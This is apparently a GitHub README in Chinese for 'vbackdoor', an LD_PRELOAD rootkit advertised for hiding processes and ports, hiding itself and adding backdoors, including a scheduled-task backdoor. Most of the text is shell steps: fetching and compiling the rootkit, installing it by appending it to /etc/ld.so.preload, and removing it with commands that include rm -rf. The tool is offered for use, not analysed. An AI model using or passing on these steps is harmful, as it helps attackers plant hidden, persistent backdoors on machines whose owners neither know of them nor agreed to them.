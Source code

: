 # vbackdoor
使用 LD_PRELOAD rootkit 技术进行隐藏进程、隐藏端口、后门添加、自我隐藏

### 编译（使用时修改vbackdoor.c内容）

```
git clone https://github.com/veo/vbackdoor.git
cd vbackdoor
vi vbackdoor.c
make
sudo mv vbackdoor.so /usr/local/lib/
```

或者

```
wget https://raw.githubusercontent.com/veo/vbackdoor/main/vbackdoor.c
vi vbackdoor.c
gcc -Wall -fPIC -shared -o vbackdoor.so vbackdoor.c -ldl
sudo mv vbackdoor.so /usr/local/lib/
```

### 载入后门

```
echo /usr/local/lib/vbackdoor.so >> /etc/ld.so.preload
```

### 卸载后门

```
vi /etc/ld.so.preload
```
并删除内容 /usr/local/lib/vbackdoor.so

或者

使用busybox

```
rm -rf /etc/ld.so.preload
```

  * 进程隐藏
  * LD_PRELOAD 隐藏
  * 端口隐藏
  * 计时任务后门
